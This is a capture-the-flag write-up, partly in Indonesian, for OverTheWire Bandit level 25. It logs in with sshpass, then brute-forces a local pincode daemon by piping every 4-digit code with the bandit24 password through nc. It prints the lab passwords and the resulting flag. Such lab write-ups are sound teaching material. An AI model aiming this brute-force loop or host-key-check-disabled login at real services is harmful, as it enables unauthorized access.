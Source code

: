 ```yaml
---
layout: default
level: 25
name_file: level
---
```


{% include level-section.html %}

# soal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. \
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. \
You do not need to create new connections each time

# ssh
```bash
sshpass -p "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8" ssh -o StrictHostKeyChecking=no bandit24@bandit.labs.overthewire.org -p 2220
```

# solve
```bash
echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8" | nc localhost 30002
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Wrong! Please enter the correct current password and pincode. Try again.
## kita butuh dengan memasukan passowrd bandit24 dan pincode dalam satu baris

echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234" | nc localhost 30002
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Wrong! Please enter the correct current password and pincode. Try again.

## disini saya mencoba untuk melakukan looping sederhana
for i in {1000..9999}; do echo $i; done
# 1000
# 1001
# ...

## saya mencoba komubinasikan dengan password bandit24
for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done
...
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9997
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9998
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9999

## setelah itu saya mengkombinasikan dengan pass
for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002
# Wrong! Please enter the correct current password and pincode. Try again.
# Wrong! Please enter the correct current password and pincode. Try again.
# Correct!
# The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002  | grep -vi wrong
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Correct!
# The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

# after i ssh i found the pin
cat .pin
# 9297
```

# flag
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4